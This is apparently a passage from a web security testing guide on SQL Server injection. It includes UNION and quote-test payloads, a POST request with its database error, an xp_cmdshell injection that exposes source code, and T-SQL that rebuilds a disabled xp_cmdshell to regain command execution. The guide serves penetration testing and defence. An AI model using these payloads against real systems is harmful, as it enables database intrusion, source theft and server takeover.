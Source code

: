 `https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`

### Example 3: Testing in a POST Request

SQL Injection, HTTP POST Content: `email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

A complete post example (`https://vulnerable.web.app/forgotpass.asp`):

```txt
POST /forgotpass.asp HTTP/1.1
Host: vulnerable.web.app
[...]
Referer: http://vulnerable.web.app/forgotpass.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

email=%27&whichSubmit=submit&submit.x=0&submit.y=0
```

The error message obtained when a `'` (single quote) character is entered at the email field is:

```txt
Microsoft OLE DB Provider for SQL Server error '80040e14'
Unclosed quotation mark before the character string '' '.
/forgotpass.asp, line 15
```

### Example 4: Yet Another (Useful) GET Example

Obtaining the application's source code

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Example 5: Custom `xp_cmdshell`

All books and papers describing the security best practices for SQL Server recommend disabling `xp_cmdshell` in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation.

On SQL Server 2000:

- If `xp_cmdshell` has been disabled with `sp_dropextendedproc`, we can simply inject the following code:

`sp_addextendedproc 'xp_cmdshell','xp_log70.dll'`

- If the previous code does not work, it means that the `xp_log70.dll` has been moved or deleted. In this case we need to inject the following code:

```sql
CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
    DECLARE @result int, @OLEResult int, @RunResult int
    DECLARE @ShellID int
    EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result
```
